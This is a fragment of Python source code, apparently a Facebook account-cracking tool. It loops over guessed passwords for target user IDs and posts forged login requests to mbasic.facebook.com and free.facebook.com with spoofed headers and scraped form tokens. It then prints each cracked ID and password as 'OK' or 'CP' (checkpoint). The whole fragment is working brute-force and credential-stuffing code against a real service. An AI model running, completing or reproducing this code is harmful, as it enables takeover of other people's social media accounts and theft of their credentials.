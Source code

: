 			po = ses.post('https://free.facebook.com/login/device-based/regular/login/?shbl=1&refsrc=deprecated',data=dataa,allow_redirects=False)
			if "checkpoint" in po.cookies.get_dict().keys():
				print('\n')
				print(f'\033[33;1m[ + ] CP:\n[ + ] ID: {idf}\n[ + ] PASS: {pw}')
				cp+=1
				break
			elif "c_user" in ses.cookies.get_dict().keys():
				print('\n')
				print(f'\033[32;1m[ + ] OK:\n[ + ] ID: {idf}\n[ + ] PASS: {pw}')
				ok+=1
				break

			else:
				continue
		except requests.exceptions.ConnectionError:
			time.sleep(101)
	loop+=1


def mobile(idf,pwv):
	global loop
	global ok
	global cp
	sys.stdout.write(f"\r\033[0;1m[ \033[34;1m{loop}:{len(id)} \033[0;1m]  \033[0;1m[ \033[32;1m{ok} \033[0;1m]  \033[0;1m[ \033[33;1m{cp} \033[0;1m]"),
	sys.stdout.flush()
	ses = requests.Session()
	ua = random.choice(ugen)
	ua2 = random.choice(ugen2)
	for pw in pwv:
		try:
			ses.headers.update({"Host":'m.facebook.com',"upgrade-insecure-requests":"1","user-agent":ua2,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://m.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,id;q=0.6,bs;q=0.5"})
			p = ses.get('https://mbasic.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&locale=id_ID&_rdr').text
			dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p)).group(1),"uid":idf,"flow":"login_no_pin","pass":pw,"next":"https://m.facebook.com/login/save-device/'"}
			ses.headers.update({"Host":'mbasic.facebook.com',"cache-control":"max-age=0","upgrade-insecure-requests":"1","origin":"https://m.facebook.com","content-type":"application/x-www-form-urlencoded","user-agent":ua,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":'https:/m.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&locale=id_ID&_rdr',"accept-encoding":"gzip, deflate br","accept-language":"en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,id;q=0.6,bs;q=0.5"})
			po = ses.post('https://mbasic.facebook.com/login/device-based/validate-password/?shbl=0',data=dataa,allow_redirects=False)
			if "checkpoint" in po.cookies.get_dict().keys():
				print('\n')
				print(f'\033[33;1m[ + ] CP:\n[ + ] ID: {idf}\n[ + ] 𝐏𝐀𝐒𝐒: {pw}')
				cp+=1
				break
			elif "c_user" in ses.cookies.get_dict().keys():
				print('\n')
				print(f'\033[32;1m[ + ] OK:\n[ + ] ID: {idf}\n[ + ] 𝐏𝐀𝐒𝐒: {pw}')
				ok+=1
				break